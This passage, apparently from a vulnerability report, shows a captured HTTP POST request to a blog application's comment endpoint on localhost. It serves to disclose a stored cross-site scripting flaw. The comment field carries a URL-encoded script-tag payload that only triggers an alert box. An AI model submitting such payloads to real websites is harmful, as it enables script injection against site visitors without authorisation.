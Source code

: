 ![image-20220901153902249](.\image\20220901\image-20220901153902249.png)

###### Data Pack:

```bash
POST /comment HTTP/1.1
Host: localhost:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:104.0) Gecko/20100101 Firefox/104.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 72
Origin: http://localhost:8081
Connection: close
Referer: http://localhost:8081/articles/blog-ssm
Cookie: JSESSIONID=F68B6E11EB57F40C26C413029E832793
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

contentId=65&commentText=%3Cscript%3Ealert%28%22123%22%29%3C%2Fscript%3E
```
